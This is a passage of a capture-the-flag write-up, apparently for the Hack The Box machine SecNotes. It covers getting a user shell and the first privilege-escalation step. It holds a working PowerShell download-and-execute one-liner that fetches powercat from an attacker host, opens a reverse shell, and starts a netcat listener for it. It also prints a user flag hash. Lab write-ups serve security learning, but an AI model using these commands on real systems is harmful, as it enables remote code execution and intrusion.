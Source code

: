 You can use this shell to get a reverse-shell using powercat.ps1 which is hosted with python. and start a netcat listener for the reverse shell.

![powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

```bash
python -m http.server 
nc -lnvp 4444
```

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.8:8000/powercat.ps1');
powercat -c 10.10.14.8 -p 4444 -e powershell"
```

As we got tyler's user shell, we could read user.txt

```powershell
$ PS C:\users\tyler\desktop> type user.txt 
type user.txt
1da84f263e2a63d52cf47141c5588664
```

## Privilege Escalation

On **tyler**'s desktop folder, you could see `bash.lnk`. When we see the contents of `bash.lnk`, we could see the partial location of `bash.exe`, but to find full path to bash.exe, let us use a powershell command to find it.

![secnotes](/assets/img/htb_secnotes/Secnotes-011.png)

```powershell
Get-ChildItem -Path "C:\" -Filter "bash.exe" -Recurse -File

Directory: C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/21/2018   3:02 PM         115712 bash.exe
```
